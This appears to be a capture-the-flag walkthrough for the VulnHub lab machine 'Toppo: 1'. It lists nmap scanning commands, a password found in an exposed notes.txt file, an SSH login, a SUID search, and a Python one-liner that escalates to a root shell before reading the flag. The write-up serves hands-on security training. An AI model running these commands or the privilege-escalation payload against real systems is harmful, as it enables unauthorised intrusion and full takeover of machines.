






:::::::::::::::::: page
# Toppo: 1 {#toppo-1 .title}

\

## 

## Toppo: 1

- **[Toppo: 1]{style="color:#663e0e;"}** :-

<!-- -->

- Download the machine : <https://www.vulnhub.com/entry/toppo-1,245/>

- Now unzip the file .
- Make a machine .
- Insert vmdk file in IDE Controller .
- Start the machine .

1.  [Network Scanning]{style="color:#3584e4;"} :

- Find the machine IP :

::: codebox
    nmap -sn 192.168.2.0/24
:::

- Run nmap master command :

::: codebox
    nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.114
:::

- Find available port in the machine ( Optional ) :

::: codebox
    nmap -v -p- 192.168.2.114
:::

- 

::: codebox
    nmap -sC -sV -A 192.168.2.114
:::

- This command runs an aggressive scan and uses the http-enum script to
  identify potential CGI directories .

::: codebox
    nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.114
:::

1.  [Web Enumeration]{style="color:#3584e4;"} :

- IP visit in browser : <http://192.168.2.114>

<!-- -->

- Visit the /admin endpoints : <http://192.168.2.114/admin/>

- Open notes.txt file : <http://192.168.2.114/admin/notes.txt>

- Found hint :

::: codebox
    Password : 12345ted123
:::

- So let\'s try to guess the username ted and try to login into ssh .

1.  [SSH Access]{style="color:#3584e4;"} :

- SSH Login :

::: codebox
    ssh ted@192.168.2.114
:::

1.  [Privilege Escalation]{style="color:#3584e4;"} :

- Find SUID Binaries :

::: codebox
    find / -perm -4000 -type f 2>/dev/null
:::

- Exploited SUID Python binary :

::: codebox
    python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
:::

- Verification :

::: codebox
    id
:::

 Root shell obtained.

- Show the present directory and navigate root directory :

::: codebox
    pwd
:::

- 

::: codebox
    cd /root
:::

- Check the list and read the file :

::: codebox
    ls
:::

- 

::: codebox
    cat flag.txt
:::

- Found the root flag :

::: codebox
    0wnedlab{p4ssi0n_c0me_with_pract1ce}
:::

::::::::::::::::::
